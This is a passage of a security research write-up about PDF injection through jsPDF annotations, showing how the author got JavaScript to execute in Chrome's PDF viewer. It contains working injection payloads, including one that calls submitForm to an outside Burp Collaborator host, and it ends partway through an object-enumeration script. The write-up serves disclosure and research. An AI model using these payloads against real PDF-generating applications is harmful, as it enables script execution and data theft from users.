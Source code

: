 This would navigate to portswigger.net when clicked. Then I moved on and tried different injections to call JavaScript, but this would fail every time. I thought it was impossible to do. I took a step back and tried to manually construct an entire PDF that would call JavaScript from a click in Chrome without an injection. When using an AcroForm button, Chrome would allow JavaScript execution, but the problem was it required references to parts of the PDF. I managed to craft an injection that would execute JavaScript from a click on JSPDF:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0.825 0.8275 0.8275]/CA(Submit)>>/Rect [ 72 697.8898 144 676.2897]/Subtype/Widget/AP<</N <</Type/XObject/BBox[ 0 0 72 21.6]/Subtype/Form>>>>/Parent <</Kids[ 3 0 R]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(app.alert(1))/Type/Action/F 4/DA(blah`});``  \
`doc.text(20, 20, 'Click me test');`

As you can see, the above vector requires knowledge of the PDF structure. \[ 3 0 R] refers to a specific PDF object and if we were doing a blind PDF injection attack, we wouldn't know the structure of it. Still, the next stage is to try a form submission. We can use the submitForm function for this, and because the annotation requires a click, Chrome will allow it:`/) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0.0 813.54 566.93 -298.27]/CA(Submit)>>/Rect [ 72 697.8898 144 676.2897]/Subtype/Widget/AP<</N <</Type/XObject/BBox[ 0 0 72 21.6]/Subtype/Form>>>>/Parent <</Kids[ 3 0 R]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(app.alert(1);this.submitForm('https://your-id.burpcollaborator.net'))/Type/Action/F 4/DA(blah`

This works, but it's messy and requires knowledge of the PDF structure. We can reduce it a lot and remove the reliance on the PDF structure:`#) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0 0 889 792]/CA(Submit)>>/Rect [ 0 0 889 792]/Subtype/Widget/AP<</N <</Type/XObject/Subtype/Form>>>>/Parent <</Kids[ ]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(`  \
`app.alert(1)`  \
`)/Type/Action/F 4/DA(blah`

There's still some code we can remove:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(A)>>/A<</S/JavaScript/JS(app.alert(1))/(`});``  \
`doc.text(20, 20, 'Test text');`

The code above breaks out of the annotation, creates a new one, and makes the entire page clickable. In order for the JavaScript to execute, we have to inject a button and give it any text using the "T" entry. We can then finally inject our JavaScript code using the JS entry in the dictionary. Executing JavaScript on Chrome is great. I never thought it would be possible when I started this research.

Next I looked at the submitForm function to steal the contents of the PDF. We know that we can call the function and it does contact an external server, as demonstrated in one of the examples above, but does it support the full Acrobat specification? I looked at the [source code of PDFium](https://github.com/PDFium/PDFium/blob/master/fpdfsdk/src/javascript/Document.cpp#L818) but the function doesn't support SubmitAsPDF :( You can see it supports FDF, but unfortunately this doesn't submit the contents of the PDF. I looked for other ways but I didn't know what objects were available. I took the same approach I did with Acrobat and wrote a fuzzer/enumerator to find interesting objects. Getting information out of Chrome was more difficult than Acrobat; I had to gather information in chunks before outputting it using the alert function. This was because the alert function truncated the string sent to it.`...`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>> <</Type/Annot/Rect[0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(``  \
`(function(){`  \
`var obj = this,`  \
`data = '',`  \
`chunks = [],`  \
`counter = 0,`  \
`added = false, i, props = [];`  \
`for(i in obj) {`  \
`props.push(i);`  \
`}`  \
`...`
